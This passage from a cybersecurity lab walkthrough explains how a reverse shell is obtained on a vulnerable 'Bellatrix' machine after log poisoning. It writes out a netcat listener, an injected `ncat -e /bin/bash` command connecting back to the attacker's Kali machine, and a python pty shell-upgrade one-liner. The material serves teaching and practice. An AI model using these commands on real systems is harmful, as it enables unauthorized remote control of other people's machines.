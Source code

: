 ![log-poisoning](https://github.com/lorenzodiaz2/Cybersecurity_Lab/blob/main/images/log-poisoning.png)  


### 5. Obtaining Reverse Shell

Now, it’s time to take the reverse shell. We want to arrive at the scenario where on the Kali Machine there is a listener (a server) listening on a certain port and on the Bellatrix Machine there is a Reverse Shell connected to Kali Machine.    
I have used Netcat as listener, a command-line utility that reads and writes data across network connections using the TCP or UDP protocols, so in the terminal of Kali Machine we execute `nc -lvp 1234` command, in which:
 - *-l* stands for "listen", tells *nc* to go into listen mode
 - *-v* stands for "verbose", makes *nc* more verbose showing additional connection status messages
 - *-p* specifies the port on which *nc* should listen, 1234 in this case 


After that we have to execute some code on the Bellatrix Machine to open a connection with the Kali Machine on port 1234 and spawn a process that executes */bin/bash* and we do this by injecting code directly into the log URL. The code we inject is `ncat -e /bin/bash 10.0.2.15 1234`, where:
 - *ncat* is an advanced implementation of *nc* that offers many additional features
 - *-e* followed by */bin/bash* specifies to run the *bin/bash* program as a child process when a connection is established
 - 10.0.2.15 is the IP of the Kali Machine
 - 1234 is the port to connect to

At this point we are in the scenario in which the Bellatrix Machine has a reverse shell, obtained with *netcat*, connected to our Kali Machine. However, there is a small drawback to this type of shell. That is, the shell is a very plain shell that doesn’t have any prompts or features like bash-completion. Hence, it is required to upgrade to an intelligent reverse shell.   
We can use `python3 -c 'import pty;pty.spawn("/bin/bash")'` command, in which:
- *python3* starts the Python3 interpreter
- *-c* is a parameter that specifies to execute the Python code provided as a string
- *import pty* imports the Python *pty* module
- *pty.spawn("/bin/bash")* uses the *spawn* function of the *pty* module to start a new bash process as a child process

